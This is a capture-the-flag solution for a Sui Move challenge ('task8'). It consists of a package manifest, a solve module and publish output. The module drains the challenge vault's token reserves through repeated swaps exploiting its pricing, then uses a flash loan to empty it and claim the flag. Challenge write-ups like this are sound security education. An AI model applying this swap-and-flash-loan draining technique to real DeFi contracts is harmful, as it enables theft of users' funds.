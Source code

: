 ```toml
[package]
name = "solve_task8"
edition = "2024.beta" # edition = "legacy" to use legacy (pre-2024) Move

[dependencies.task8]
local = "../task8"

[addresses]
solve_task8 = "0x0"
task8 = "0x6159940b13e75bbe27937d33bab22a6f29e86a749cd694888798eb0a196908b6"
```

Now we publish the solve contract

```rust
module solve_task8::solve {
    use sui::coin::{Coin, join, split};
    use task8::vault::{Vault, flash, repay_flash, swap_a_to_b, swap_b_to_a, get_flag};

    public fun swap_rounds<A,B>(vault: &mut Vault<A,B>, our_10a: Coin<A>, our_10b: Coin<B>, ctx: &mut TxContext) {
        // Use user coin of 10 A and 10 B for initial swapping
        let coin_b = swap_a_to_b(vault, our_10a, ctx); // our_10b=10, coin_b=10, vault:110/90
        let coin_a = swap_b_to_a(vault, our_10b, ctx); // coin_a=12, coin_b=10, vault:98/100
        // keep swapping until A or B balance reaches 0 in vault
        let mut coin_b2 = swap_a_to_b(vault, coin_a, ctx); // coin_b2=12, vault:110/88
        coin_b2.join(coin_b); // coin_b=22, vault:110/88
        let coin_a2 = swap_b_to_a(vault, coin_b2, ctx); // coin_a2=27, vault:83/110
        let coin_b3 = swap_a_to_b(vault, coin_a2, ctx); // coin_b3=35, vault:110/75
        let coin_a3 = swap_b_to_a(vault, coin_b3, ctx); // coin_a3=51, vault:59/110
        let mut coin_b4 = swap_a_to_b(vault, coin_a3, ctx); // coin_b4=95, vault:110/15
        let coin_b40 = coin_b4.split(15, ctx);
        let coin_a4 = swap_b_to_a(vault, coin_b40, ctx); // coin_a4=110, vault:0/30
        let (coin_a5, coin_b5, receipt) = flash(vault, 30, true, ctx); // vault:0/0
        get_flag(vault, ctx);
        repay_flash(vault, coin_a5, coin_b5, receipt);
        transfer::public_transfer(coin_a4, @0x0);
        transfer::public_transfer(coin_b4, @0x0);
    }
}
```

```bash
# sui client publish
Transaction Digest: DFYkn1eNFzkLecgqKTKXkSDfrv45fo67BdvesFpZdEYD
...
│ Published Objects:                                                                               │
│  ┌──                                                                                             │
│  │ PackageID: 0x85384c40c8552d2fb658c3f93991976f5ca864bf99b9dcdc24c5ee2948298831                 │
│  │ Version: 1                                                                                    │
│  │ Digest: EQ8H6NTi3VFiRFN8PoN8PjzZMWPGAG9rAsRMjp9x7QiK                                          │
│  │ Modules: solve                                                                                │
│  └──                                           
...
```

